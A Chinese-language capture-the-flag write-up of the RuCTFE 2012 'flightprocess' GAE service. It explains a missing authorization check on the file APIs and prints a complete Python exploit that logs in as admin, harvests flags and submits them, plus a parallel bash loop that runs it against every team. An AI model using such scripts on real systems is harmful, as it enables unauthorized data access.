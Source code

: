 ```yaml
---
title: '[RuCTFE2012]flightprocess'
author: yzm
layout: post
permalink: /ructfe2012_flightprocess/
categories:
  - Uncategorized
tags:
  - RuCTFE
---
```

flightprocess是一个基于Google App Engine的应用

拿到程序以后现在本地搭建了一个GAE的SDK环境，然后在本地运行了起来

大致看了看这个程序，是一个在线编辑交通图的IDE。所有文件（交通图用XML表示，还有其他图片什么的）都丢在数据库里。

杨坤在data文件里找到了明文的KEY。而且，KEY好像是保存在XML中，把这段明文复制出来，放在前端的IDE里面，正好是一张交通图。

然后我就猜想，KEY在某个交通图里，这个交通图在某个工程里面，然后这个工程又是公开的，所有人都能读取。

后来在GAE的调试模式下面的确验证了我的猜想。注意XML文件也当做是二进制文件保存了，GAE的后台无法直接看到这个KEY。

并且从梁校长那里看到的流量中，看到了比赛组织者推送KEY的过程

之后杨坤和俞则明联手从javascript里找到了拿到KEY的api

然后杨坤就开始从前台开始分析这个IDE，发现全都是JavaScript动态生成的。

找到几个API：  
列某个工程下的所有文件，  
/api/files/list/[工程名称]/

读取某个工程下的某个文件，  
/api/files/browse/[工程名称]/[文件名称]

列所有工程，  
/api/projects/list

查找工程  
/api/projects/find

除了列所有工程做了用户权限检查，其他的API都没有做用户权限检查，也就是说，任何用户都能看到所有工程的所有文件。  
并且查找工程是返回所有工程名字然后在前端查找的。

然后就是自动化的事情了.

我使用Python的cookielib登录，先拿到所有的project list，然后通过json解析把其它的信息取得，最后使用正则把KEY匹配出来，并且自动进行telnet提交到裁判

宋教授建议我把python脚本做成单参数的，然后他使用xargs进行并行处理，while 1;把所有队的跑一遍

这次主要的时间浪费在搞清比赛规则上，例如完全不知道KEY是啥时候推过来。其实漏洞倒不是特别难，但是如果没有GAE的经验的话，会无从下手。我一开始打算一点点看代码，但是太累了，幸好俞使用了前端调试，很快就找到了。

代码如下

    import urllib2
    import urllib
    import cookielib
    import json
    import sys
    import re
    
    ips = [sys.argv[-1]]
    
    for i in ips:
        cookieJar = cookielib.CookieJar()
        opener = urllib2.build_opener(urllib2.HTTPCookieProcessor(cookieJar))
        #print i
        f = opener.open("http://"+i+":10800/_ah/login?email=test%40example.com&amp;admin=True&amp;action=Login&amp;continue=")
        #print f.read()
    
        f = opener.open("http://%s:10800/api/projects/find"%i)
        a = f.read()
        #print a
    
    
        b = json.loads(a)
        c =  b['data'][-1]['link_name']
    
        f = opener.open("http://"+i+":10800/api/files/list/"+c+"/")
        d = f.read()
    
        e = json.loads(d)
        g =  e['data'][0]['name']
    
        f = opener.open("http://"+i+":10800/api/files/browse/%s/%s.fpml"%(c,g))
        pattern = r"\w{31}="
        nn = re.findall(pattern,f.read())[-1]
        print nn
        import telnetlib
        tn = telnetlib.Telnet('flags.e.ructf.org',10001)
        tn.read_until("Enter your flags,")
        tn.write(nn+'\n')
        tn.close()
    

执行的Bash命令是

    while :;do  xargs -P50 -i python do.py.bak '{}'  output;done